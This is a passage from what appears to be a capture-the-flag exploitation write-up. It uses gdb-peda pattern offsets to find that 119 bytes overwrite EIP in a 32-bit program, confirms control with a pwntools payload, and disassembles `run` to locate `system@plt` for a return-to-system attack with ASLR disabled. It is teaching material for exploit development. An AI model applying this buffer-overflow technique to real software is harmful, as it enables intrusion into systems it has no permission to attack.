 ```default
0028| 0xffa783dc ("AApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%"...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41416a41 in ?? ()
gdb-peda$ pattern_offset AjAA
AjAA found at offset: 119
gdb-peda$ 
```

Let's update our script and confirm that we have control of the `eip`.

```python
p.sendline(b"continue"+b"\x00"+b"A"*119+"B"*4)
```

```default
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xff9f89d0 --> 0x804a100 ("d or continue flying? (land/continue)\n> ")
0004| 0xff9f89d4 --> 0x804b4e0 ("AAAA")
0008| 0xff9f89d8 --> 0xf7ecb5c0 (0xf7ecb5c0)
0012| 0xff9f89dc --> 0xf7ecb5c0 (0xf7ecb5c0)
0016| 0xff9f89e0 --> 0xff9f8a20 --> 0xf7ea0ff4 --> 0x21cd8c 
0020| 0xff9f89e4 --> 0xf7eca708 --> 0xf7f06bac --> 0xf7eca820 --> 0xf7f06a40 --> 0x0 
0024| 0xff9f89e8 --> 0x8049369 (<run+11>:       add    ebx,0x210b)
0028| 0xff9f89ec --> 0xf7ea0ff4 --> 0x21cd8c 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ 
```

Excellent, we now have control of the `eip`.

Since ASLR is disabled, let's disassemble the `run` function and get the address for the `system` function which we will be returning to.

```default
gdb-peda$ disas run
Dump of assembler code for function run:
   0x0804935e <+0>:     push   ebp
   0x0804935f <+1>:     mov    ebp,esp
   0x08049361 <+3>:     push   edi

...

   0x08049403 <+165>:   lea    eax,[ebx-0x12c7]
   0x08049409 <+171>:   mov    DWORD PTR [esp],eax
   0x0804940c <+174>:   call   0x8049080 <system@plt>
   0x08049411 <+179>:   add    esp,0x10
   0x08049414 <+182>:   xor    eax,eax
   0x08049416 <+184>:   lea    esp,[ebp-0xc]
   0x08049419 <+187>:   pop    ebx
   0x0804941a <+188>:   pop    esi
   0x0804941b <+189>:   pop    edi
   0x0804941c <+190>:   pop    ebp
   0x0804941d <+191>:   ret
End of assembler dump.
gdb-peda$ 
```